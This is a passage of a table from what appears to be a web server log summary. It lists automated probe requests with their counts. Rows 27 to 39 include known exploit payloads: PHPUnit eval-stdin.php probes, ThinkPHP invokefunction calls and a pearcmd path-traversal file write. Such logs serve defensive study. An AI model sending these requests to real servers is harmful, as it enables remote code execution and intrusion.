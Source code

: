 |  27 |                     7 | GET /backup/vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php HTTP/1.1                                                                                                                                                                                                                                                                                                                                                        |
|  28 |                     7 | GET /blog/vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php HTTP/1.1                                                                                                                                                                                                                                                                                                                                                          |
|  29 |                     7 | GET /cms/vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php HTTP/1.1                                                                                                                                                                                                                                                                                                                                                           |
|  30 |                     7 | GET /testing/vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php HTTP/1.1                                                                                                                                                                                                                                                                                                                                                       |
|  31 |                     7 | GET /crm/vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php HTTP/1.1                                                                                                                                                                                                                                                                                                                                                           |
|  32 |                     7 | GET /laravel/vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php HTTP/1.1                                                                                                                                                                                                                                                                                                                                                       |
|  33 |                     7 | GET /public/index.php?s=/index/\x5Cthink\x5Capp/invokefunction&function=call_user_func_array&vars[0]=md5&vars[1][]=Hello HTTP/1.1                                                                                                                                                                                                                                                                                              |
|  34 |                     7 | GET /users/users/users/login HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                          |
|  35 |                     7 | GET /users/users/login HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                |
|  36 |                     7 | GET /public/vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php HTTP/1.1                                                                                                                                                                                                                                                                                                                                                        |
|  37 |                     7 | GET /index.php?lang=../../../../../../../../usr/local/lib/php/pearcmd&+config-create+/&/<?echo(md5(\x22hi\x22));?>+/tmp/index1.php HTTP/1.1                                                                                                                                                                                                                                                                                    |
|  38 |                     7 | GET /index.php?lang=../../../../../../../../tmp/index1 HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                |
|  39 |                     7 | GET /index.php?s=/index/\x5Cthink\x5Capp/invokefunction&function=call_user_func_array&vars[0]=md5&vars[1][]=Hello HTTP/1.1                                                                                                                                                                                                                                                                                                     |